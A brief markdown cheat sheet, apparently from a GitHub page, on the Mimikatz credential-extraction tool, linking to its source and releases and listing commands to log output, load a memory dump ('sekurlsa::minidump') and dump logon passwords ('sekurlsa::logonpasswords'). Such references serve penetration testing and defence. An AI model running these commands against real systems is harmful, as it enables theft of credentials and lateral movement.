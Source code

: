 # Mimikatz
Tool used to extract credentials. Used for pass the hash, pass the golden ticket, pass the silver ticket. 
https://github.com/gentilkiwi/mimikatz
Download:
https://github.com/gentilkiwi/mimikatz/releases

# Commands/output > output file
```
log file.log
```

# Read from a memory dump 
```
sekurlsa::minidump {filename .dump}
```

# Get logon passwords 
```
sekurlsa::logonpasswords
```

